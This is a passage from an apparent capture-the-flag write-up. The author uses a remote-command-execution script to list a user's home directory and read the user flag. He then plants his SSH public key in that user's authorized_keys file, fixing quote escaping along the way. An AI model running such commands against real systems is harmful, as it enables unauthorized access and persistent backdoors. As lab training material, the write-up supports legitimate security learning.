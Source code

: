 

I'll find `user.txt` in paul's home dir:



    oxdf@hacky$ ./rce.sh 'ls /home/paul'
    snap user.txt



The multiline result is a mess:



    oxdf@hacky$ ./rce.sh 'ls -l /home/paul'
    total 8 drwxr-xr-x 3 paul paul 4096 Feb 17 18:30 snap -r--r----- 1 root paul 33 Jun 19 21:13 user.txt



Anyway, I can read the flag:



    oxdf@hacky$ ./rce.sh 'cat /home/paul/user.txt'
    db87a6d1************************



#### .ssh

paul's homedir does have a `.ssh` directory:



    oxdf@hacky$ ./rce.sh 'ls -a /home/paul'
    . .. .bash_history .bash_logout .bashrc .cache .gnupg .local .pm2 .profile snap .ssh user.txt



It's empty:



    oxdf@hacky$ ./rce.sh 'ls -a /home/paul/.ssh'
    . ..



I'll try adding my public key to an `authorized_keys` file:



    oxdf@hacky$ ./rce.sh 'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /home/paul/.ssh/authorized_keys'
    parse error: Invalid numeric literal at line 1, column 10



If I check Burp, the request looks like this, and I can see the `"` are
messing things up:

![](/img/image-20220625171627925.png)

Sending again with the `"` escaped solves it:



    oxdf@hacky$ ./rce.sh 'echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\" >> /home/paul/.ssh/authorized_keys'

